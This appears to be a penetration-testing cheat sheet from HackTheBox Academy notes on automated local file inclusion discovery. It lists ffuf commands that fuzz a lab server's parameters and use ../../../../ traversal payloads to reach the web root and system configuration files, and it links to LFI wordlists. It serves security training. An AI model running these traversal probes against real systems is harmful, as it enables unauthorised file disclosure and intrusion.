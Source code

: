 
### Automatic LFI Finding

| Command | Description |
|---------|-------------|
| `ffuf -u 'http://94.237.62.255:38823/index.php?FUZZ=value' -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ` | Fuzzing parameter |
| `ffuf -u 'http://94.237.62.255:38823/index.php?view=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ` | LFI Wordlist fuzzing |
| `ffuf -u 'http://94.237.62.255:38823/index.php?view=../../../../FUZZ/index.php' -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ` | Server Root fuzzing |
| `ffuf -u 'http://94.237.62.255:38823/index.php?view=../../../../FUZZ' -w ./LFI-WordList-Linux:FUZZ` | Fuzz server configurations |



| Wordlists |
|--- |
|[LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)|
|[LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)||
|[Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)||
|[Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)||
|[Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)||
|[Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)|

### Prevention
https://academy.hackthebox.com/module/23/section/622